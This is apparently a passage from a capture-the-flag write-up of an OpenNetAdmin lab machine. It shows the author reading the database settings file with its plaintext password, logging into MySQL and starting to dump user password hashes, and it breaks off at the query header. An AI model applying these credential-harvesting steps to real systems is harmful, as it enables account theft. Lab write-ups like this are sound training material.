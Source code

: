 From OpenNetAdmin GitHub repository, according to the config file (https://github.com/opennetadmin/ona/blob/master/www/config/config.inc.php), it loads the databse config from `local/config`.

```php
// Include the localized Database settings
$dbconffile = "{$base}/local/config/database_settings.inc.php";
```

So I looked for that file under `/opt/ona/www/local/config` and found it.

```php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```

So I connect to the MySQL and download user credentials.

```bash
www-data@openadmin:/opt/ona/www/local/config$ mysql -u ona_sys -pn1nj4W4rri0R! ona_default
...
mysql> SHOW tables;
+------------------------+
| Tables_in_ona_default  |
+------------------------+
| ...                    |
| users                  |
| ...                    |
+------------------------+
40 rows in set (0.00 sec)

mysql> SHOW COLUMNS FROM users;
+----------+------------------+------+-----+-------------------+-----------------------------+
| Field    | Type             | Null | Key | Default           | Extra                       |
+----------+------------------+------+-----+-------------------+-----------------------------+
| id       | int(10) unsigned | NO   | PRI | NULL              | auto_increment              |
| username | varchar(32)      | NO   | UNI | NULL              |                             |
| password | varchar(64)      | NO   |     | NULL              |                             |
| level    | int(4)           | NO   |     | 0                 |                             |
| ctime    | timestamp        | NO   |     | CURRENT_TIMESTAMP | on update CURRENT_TIMESTAMP |
| atime    | datetime         | YES  |     | NULL              |                             |
+----------+------------------+------+-----+-------------------+-----------------------------+
6 rows in set (0.00 sec)

mysql> SELECT username, password, level FROM users;
+----------+----------------------------------+-------+
| username | password                         | level |
```